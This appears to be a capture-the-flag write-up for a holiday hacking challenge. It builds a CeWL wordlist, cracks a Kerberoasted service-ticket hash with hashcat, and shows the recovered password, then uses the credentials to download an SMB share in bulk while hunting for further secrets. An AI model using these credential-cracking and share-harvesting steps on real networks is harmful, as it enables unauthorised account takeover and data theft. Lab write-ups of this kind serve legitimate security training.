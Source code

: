 Password Cracking

First we have to build up a password list. We use the awsome tool found in the hints `cewl` that is able to build a list
of possible password extracted from a site just by  giving it the url.  

``` 
$sudo apt-get install ruby
git clone https://github.com/digininja/CeWL.git
$sudo gem install nokogiri
./cewl.rb –with-numbers https://register.elfu.org/register > ch8_dict.txt
``` 

once we have the worldlist we like, then ..... we are ready to crack it! 
``` 
$hashcat64.exe -m 13100 -a 0 .\spns.txt -r rules\OneRuleToRuleThemAll.rule -o craccato.txt .\ch8_dict.txt -O
``` 

``` 
OUTPUT:
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$ELFU.local/elfu_svc*$aa5230518cc7587d7f56d14450a8………90b4c278c73c4975a:Snow2021!
``` 

so we know a share and we have a password .. let's try it
## smbclient again

```
iuwuvckfvi@grades:~$ smbclient  \\\\10.128.3.30\\elfu_svc_shr -U ELFU.local\\elfu_svc
Enter ELFU.LOCAL\elfu_svc's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Wed Dec 29 08:01:30 2021
  Get-NavArtifactUrl.ps1              N     2018  Wed Oct 27 19:12:43 2021
  Get-WorkingDirectory.ps1            N      188  Wed Oct 27 19:12:43 2021
  Stop-EtwTraceCapture.ps1            N      924  Wed Oct 27 19:12:43 2021
  create-knownissue-function.ps1      N     2104  Wed Oct 27 19:12:43 2021
  PsTestFunctions.ps1                 N    52454  Wed Oct 27 19:12:43 2021
  .......................
  ......................
``` 
there are a bunch of powershell scripts here. 
Try to get them on the linux box in order to grep them looking for some password or creds ..  (I love grep!!!!) 
<br>An interesting feature of smbclient [(found in samba docs)](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
is the tar option, allowing us to download in a tar all the files.
``` 
iuwuvckfvi@grades:~/$ mkdir test && cd test
iuwuvckfvi@grades:~/test$ smbclient \\\\10.128.3.30\\elfu_svc_shr -U ELFU.local\\elfu_svc -Tc ./test.tar *
``` 
